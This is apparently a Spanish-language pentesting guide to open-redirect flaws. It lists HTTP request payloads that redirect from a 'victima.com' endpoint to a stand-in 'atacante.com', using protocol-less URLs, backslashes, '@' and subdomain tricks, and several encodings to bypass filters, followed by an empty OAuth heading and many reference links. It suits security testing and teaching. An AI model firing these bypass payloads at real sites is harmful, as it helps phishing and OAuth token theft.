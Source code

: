 ### Configuración Inicial

Usar Burp Suite para interceptar requests con parámetros de redirección. Configurar servidor controlado para recibir redirects y analizar cabeceras `Location`.

### Casos de Prueba Básicos

**Caso 1: Redirección clásica**

```http
GET /redirect?url=https://atacante.com HTTP/1.1
Host: victima.com
```

**Caso 2: Bypass de blacklist básica**[^3]

```http
# Protocol-less
GET /redirect?url=//atacante.com HTTP/1.1

# Backslash confusion
GET /redirect?url=\\atacante.com HTTP/1.1

# Mixed schemes  
GET /redirect?url=https:atacante.com HTTP/1.1
```

**Caso 3: Bypass de validación de dominio**[^3]

```http
# Subdominio malicioso
GET /redirect?next=https://victima.com.atacante.com HTTP/1.1

# Usuario malicioso con @ 
GET /redirect?url=https://victima.com%40atacante.com HTTP/1.1

# TLD confusion
GET /redirect?url=https://victimacomevil.com HTTP/1.1
```

**Caso 4: Encoding avanzado**[^3]

```http
# URL encoding
GET /redirect?url=%2f%2fatacante.com HTTP/1.1

# Double encoding  
GET /redirect?url=%252f%252fatacante.com HTTP/1.1

# Unicode normalization
GET /redirect?url=https://atacante%E3%80%82com HTTP/1.1
```

### Casos OAuth Específicos[^8]

**OAuth redirect_uri manipulation:**


[^1]: https://www.intigriti.com/researchers/blog/hacking-tools/open-url-redirects-a-complete-guide-to-exploiting-open-url-redirect-vulnerabilities
[^2]: https://www.stackhawk.com/blog/what-is-open-redirect/
[^3]: https://www.diverto.hr/en/blog/2024-12-30-open-redirection-url-filter-bypasses
[^4]: https://www.wallarm.com/what/open-redirect-vulnerability
[^5]: https://infosecwriteups.com/how-to-automate-hunting-for-open-redirect-46537cd67b35
[^6]: https://spyboy.blog/2025/05/01/the-ultimate-guide-to-finding-open-redirect-vulnerabilities-step-by-step-payloads-tools/
[^7]: https://infosecwriteups.com/100-worth-open-redirect-automation-3e2f9e36bade
[^8]: https://www.cyberark.com/resources/threat-research-blog/how-secure-is-your-oauth-insights-from-100-websites
[^9]: https://systemweakness.com/day-21-full-account-takeover-via-open-redirection-5f3ca7f0c726
[^10]: https://infosecwriteups.com/️-how-hackers-bypass-web-application-firewalls-wafs-in-2025-c2a5052044c9
[^11]: https://systemweakness.com/8-sneaky-waf-bypass-attempts-hackers-use-in-2025-and-how-safeline-stops-them-cold-f00034239538
[^12]: https://gist.github.com/0xblackbird/d7677a05ea50586cf2be0a601e665d1a
[^13]: https://infosecwriteups.com/testing-and-bypassing-technique-for-open-redirection-vulnerability-ca1bc6c851c5
[^14]: https://www.youtube.com/watch?v=sOrS69P-D8M
[^15]: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
[^16]: https://github.com/0xKayala/OpenRedirector
[^17]: https://cqr.company/web-vulnerabilities/open-redirect/
[^18]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-24735
[^19]: https://pentest-tools.com/vulnerabilities-exploits/grafana-xss-open-redirect-ssrf-via-client-path-traversal_27130
[^20]: https://security.snyk.io/vuln/SNYK-RHEL10-AUTOMATIONCONTROLLER-10441889
[^21]: https://swisskyrepo.github.io/PayloadsAllTheThings/Open Redirect/
[^22]: https://www.invicti.com/blog/web-security/open-redirection-vulnerability-information-prevention/
[^23]: https://www.acunetix.com/vulnerabilities/web/grafana-open-redirect-cve-2025-4123/
[^24]: https://abnormal.ai/blog/attackers-exploit-open-redirects
[^25]: https://www.first.org/cvss/examples
[^26]: https://www.first.org/cvss/v3-1/examples
[^27]: https://cybercx.co.nz/blog/advanced-open-redirection-vulnerability-discovery/
[^28]: https://security.snyk.io/vuln/SNYK-JS-EXPRESS-6474509
[^29]: https://waf-bypass.com/2025/06/page/2/
[^30]: https://www.youtube.com/watch?v=1Op_fPufvRI
[^31]: https://brightdata.com/blog/web-data/bypass-cloudflare
[^32]: https://www.radware.com/cyberpedia/application-security/server-side-request-forgery/
[^33]: https://dl.acm.org/doi/fullHtml/10.1145/3627106.3627140
[^34]: https://hackerone.com/reports/206591
[^35]: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect
[^36]: https://www.linkedin.com/posts/martinmarting_an-interesting-combo-ssrf-and-open-redirect-activity-7343680390290706433-lviV
[^37]: https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com
[^38]: https://infosecwriteups.com/from-open-redirect-to-internal-access-my-ssrf-exploit-story-10a736962f98
[^39]: https://security.tecno.com/SRC/blogdetail/330?lang=en_US